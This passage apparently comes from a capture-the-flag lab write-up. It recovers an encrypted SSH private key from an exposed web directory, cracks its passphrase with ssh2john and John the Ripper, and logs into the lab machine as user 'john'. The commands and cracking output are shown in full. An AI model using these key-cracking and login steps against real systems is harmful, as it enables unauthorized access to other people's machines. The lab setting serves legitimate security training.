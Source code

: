 <br>

Let's take a look at the **/secret** we found during the gobuster scan:

```
secretKey	2020-02-05 13:41 	1.7K	 
```

A single file exists, and opening it up reveals a private ssh key:

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,82823EE792E75948EE2DE731AF1A0547
```

<br>

## Connecting to the server

I save the private key to a file on my system and then try to ssh in with the username john that was in the view source comment:

`ssh -i id_rsa john@10.10.157.225`:

```
Enter passphrase for key 'id_rsa':
```

No luck, we'll have to crack the passphrase. I run:

`ssh2john.py id_rsa > crackthis`

to convert the ssh key to a format compatible with John the Ripper. I then run:

`john crackthis --wordlist=dict.lst`

Using the provided dictionary file it cracks in a matter of seconds:

```
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<REDACTED>          (id_rsa)     
1g 0:00:00:00 DONE (2022-01-31 01:20) 100.0g/s 22200p/s 22200c/s 22200C/s 2003..starwars
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

<br>

Now lets try and ssh back over:

`ssh -i id_rsa john@10.10.157.225`

```
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-76-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Jan 31 03:36:37 UTC 2022

  System load:  0.0               Processes:           98
  Usage of /:   41.3% of 9.78GB   Users logged in:     0
  Memory usage: 20%               IP address for eth0: 10.10.157.225
  Swap usage:   0%

```